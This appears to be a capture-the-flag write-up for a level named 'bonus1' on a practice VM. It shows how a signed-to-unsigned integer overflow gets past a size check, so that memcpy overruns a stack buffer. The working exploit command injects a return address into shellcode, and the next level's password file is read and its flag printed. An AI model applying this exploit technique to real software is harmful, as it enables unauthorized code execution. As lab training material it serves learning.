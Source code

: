 # Bonus 1
*pass : cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9*

```
$ scp -P 4242 bonus1@192.168.56.108:bonus1 binary/
```

## Buffer overflow
```
char *dest[40];
...
memcpy(dest,*(undefined4 *)(**av + 8),nb * 4);
```

- nb must be < 10
- (unsigned int)(nb * 4) must be = 60 because offset = 56 (nb => 8 + nb * 4 => 8 + 40)
unsigned int MAX = 4294967296

x * 4 => 0 en int
(int)-4294967296 = 0
(int)(-1073741824 * 4) = 0
(int)(-(1073741824 - x / 4)* 4) = x

(int)(-(1073741824 - 15)* 4) = 60
(int)(-(1073741809 * 4) = 60

donc x  = -1073741809

```
$ tmp/a.out
0xbffff83f
$ ./bonus1 -1073741809 $(python -c 'print "\x90" * 56 + "\x3f\xf8\xff\xbf"')
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```
